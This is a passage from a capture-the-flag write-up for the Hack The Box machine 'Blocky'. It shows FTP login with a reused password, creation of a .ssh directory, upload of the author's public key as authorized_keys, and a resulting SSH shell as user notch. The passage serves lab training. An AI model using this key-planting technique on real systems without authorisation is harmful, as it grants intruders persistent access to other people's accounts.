229 Entering Extended Passive Mode (|||28992|)
150 Opening ASCII mode data connection for file list
drwxrwxr-x   7 notch    notch        4096 Jul  3  2017 minecraft
-r--------   1 notch    notch          33 Oct 11 00:28 user.txt
226 Transfer complete
ftp> cd .ssh
550 .ssh: No such file or directory
ftp> mkdir .ssh
257 "/.ssh" - Directory successfully created
ftp> cd .ssh
250 CWD command successful
```

FTP into the box using `notch` password that we got from the source code. Assuming that the password works for FTP but not for SSH. Create a `.ssh` directory. 
```
──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb]
└─# cp /home/ringbuffer/.ssh/id_rsa.pub .
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb]
└─# python -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
ftp> put id_rsa.pub
local: id_rsa.pub remote: id_rsa.pub
229 Entering Extended Passive Mode (|||26400|)
150 Opening BINARY mode data connection for id_rsa.pub
100% |***************************************************************************************************************************|   569        2.42 MiB/s    00:00 ETA
226 Transfer complete
569 bytes sent in 00:00 (15.44 KiB/s)
ftp> rename id_rsa.pub authorized_keys
350 File or directory exists, ready for destination name
250 Rename successful
```

On Kali now you can SSH into notch with your public key
```
┌──(ringbuffer㉿kali)-[~]
└─$ ssh -i /home/ringbuffer/.ssh/id_rsa notch@10.10.10.37
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:11: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Oct 10 22:03:03 2024 from 10.10.14.2
notch@Blocky:~$ 
```

